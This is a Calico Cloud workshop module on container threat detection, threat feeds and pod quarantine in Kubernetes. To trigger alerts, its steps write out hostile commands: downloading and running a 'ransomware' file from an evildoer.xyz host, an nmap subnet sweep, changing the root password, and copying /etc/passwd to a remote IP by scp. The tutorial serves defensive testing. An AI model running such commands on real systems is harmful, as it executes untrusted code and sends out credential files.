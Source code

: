 # Module 3 - Malware protection, access control and quarantine with Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

## Malware execution alert and security events

Security events suggest the possible presence of a threat actor in your Kubernetes cluster. These events can take various forms, such as a DNS request to a suspicious domain, the activation of a Web Application Firewall (WAF) rule, unauthorized access to sensitive files, or the detection of malware. Calico Cloud offers a centralized dashboard for security engineers and incident response teams to efficiently oversee and respond to these threat alerts. The advantages of using Calico Cloud in this context include:

- A filtered list of critical events with recommended remediation
- Identify impacts on applications
- Understand the scope and frequency of the issue
- Manage alert noise by dismissing events (show/hide)

To test this feature, let's download a file that contains the hash of a malware and execute it inside the pod attacker.

1. Execute the bash inside the pod attack in way you can interact with its shell prompt:

   ```bash
   kubectl exec attack -it -- /bin/bash
   ```

2. From the bash inside the pod attacker execute the following command to: 1) Download the malware, change its permission and run it.

   ```bash
   wget http://evildoer.xyz/ransomware
   chmod +x ransomware
   ./ransomware
   ```
   
3. Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   << screenshot >>

   Because the `ransomware` file has a hash that identifies it as a malware, Calico will create a **Malware** event indicating its execution event. Additionally, a security event showing the modification of the file permission (`chmod +x ransomware`) will be created as well.

   Optionally, you can also try the following commands and observe the security events that are created;
   
   ```bash
   apk add nmap
   nmap -sn $(hostname -i)/24
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security` again.

## Threat Feeds

In modern cloud-native security, threat intelligence feeds are vital for monitoring and tracking the IP addresses and domains associated with known malicious actors. Calico Cloud integrates threat intelligence feeds, including AlienVault, into its default security policies. This means that right from the outset, any traffic directed to suspicious IP addresses or domain is automatically blocked without requiring additional setup.

1. Explore the Threat Feeds available in Calico Cloud UI in the `Threat Defense` > `Threat Feeds`. Click on each one of them to visualize the lists of IP addresses or domains.

<< screenshot >>

2. Using the pod attacker, try to connect to some of the IP addresses and domains you found in the alienvault lists.

   ```bash
   curl -m2 -vvvvv 
   ```

3. Wait a minute and go to the Calico Cloud UI in the `Activity` > `Alerts`. You should be able to see the alerts for the connection attempt.

<< screenshot >>


## Quarantine a workload

Suppose you have a compromised workload in your environment and want to conduct further investigation on it. In that case, you should not terminate the workload but isolate it, so it will not be able to cause damage or spread laterally across your environment. In this situation, you should quarantine the pod by applying a security policy to it that will deny all the egress and ingress traffic and log all the communications attempts from and to that pod.

We have the `quarantine` policy created in the `security` tier. This policy has a label selector of `quarantine = true`. Let's see how it works.

1. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   - Test the connection to a local service

     ```bash
     curl -m3 http://vote.vote
     ```

   - Test the connectivity with the Kubernetes API

     ```bash
     curl -m3 -k https://kubernetes:443/versions
     ```  

   - Test the connectivity with the internet

     ```bash
     curl -m3 http://neverssl.com
     ```  

2. Label the attacker pod with `quarantine = true`. 

   ```bash
   kubectl label pod attacker quarantine=true
   ```

3. Repeat the tests from step 1. Now, as you can see, the cannot establish communication with any of the destinations.

--- 
[:arrow_right: Module 4 - Enforcing security policy to stop C&C attacks](/mod/module-4-security-policies.md)   <br>

[:arrow_left: Module 2 - Analyze service-to-service communication](/mod/module-2-analyze-communications.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  